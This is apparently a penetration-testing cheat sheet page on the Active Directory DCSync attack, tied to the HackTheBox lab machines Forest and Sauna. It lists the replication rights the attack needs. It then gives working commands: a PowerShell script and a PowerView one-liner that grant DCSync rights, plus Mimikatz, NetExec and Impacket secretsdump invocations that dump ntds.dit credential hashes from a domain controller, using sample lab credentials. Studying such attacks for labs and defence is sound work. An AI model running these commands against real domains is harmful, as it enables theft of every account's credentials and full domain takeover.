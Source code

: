 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# DCSync

## TL;DR

<div align="left">

<figure><img src="../../../../.gitbook/assets/dcsync_attack.png" alt=""><figcaption><p>DCSync in a nutshell!</p></figcaption></figure>

</div>

DCSync is late-phase attack that allows an attacker to **mimic a DC** and then dump `ntds.dit`. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

{% hint style="info" %}
**Domain/Enterprise Admins** have these rights by default.&#x20;

If we have **`WriteDacl`**rights over an account, we can assign **DCSync rights** to it.&#x20;

The **Windows Exchange Permissions** group has **DCSync rights**.

_Example:_[ _Forest_](../../../../boxes/boxes/easy/forest.md#privilege-escalation)
{% endhint %}

## Windows

{% tabs %}
{% tab title="EnumRights*" %}
```powershell
dsacls "DC=domain,DC=local"
```
{% endtab %}

{% tab title="AssingRights**" %}
```powershell
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"
```
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity user1 -Rights DCSync
```
{% endcode %}
{% endtab %}

{% tab title="Mimikatz" %}
```powershell
mimikatz # lsadump::dcsync /domain:HTB.LOCAL /user:HTB\administrator
```
{% endtab %}
{% endtabs %}

<details>

<summary>Notes</summary>

1. [dsacls](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771151\(v=ws.11\)) requires an elevated command prompt.\*
2. Explained [here](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md).\*\*



</details>

## Linux

{% tabs %}
{% tab title="DCSync rights" %}
{% code overflow="wrap" %}
```bash
DCSync.py -dc htb.local -t 'CN=hacker,CN=Users,DC=htb,DC=local' 'htb.local\hacker:h@ck3r!'
```
{% endcode %}
{% endtab %}

{% tab title="NetExec" %}
```bash
nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
```
{% endtab %}

{% tab title="Impacket" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
</strong></code></pre>
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Forest (Easy)" %}
{% content-ref url="../../../../boxes/boxes/easy/forest.md" %}
[forest.md](../../../../boxes/boxes/easy/forest.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sauna (Easy)" %}
{% content-ref url="../../../../boxes/boxes/easy/sauna.md" %}
[sauna.md](../../../../boxes/boxes/easy/sauna.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="DCSync" %}
{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}
{% endtab %}

{% tab title="Secretsump" %}
{% embed url="https://www.youtube.com/watch?v=QfyZQDyeXjQ" %}
How Secretsdump script work behind the scenes!
{% endembed %}
{% endtab %}
{% endtabs %}
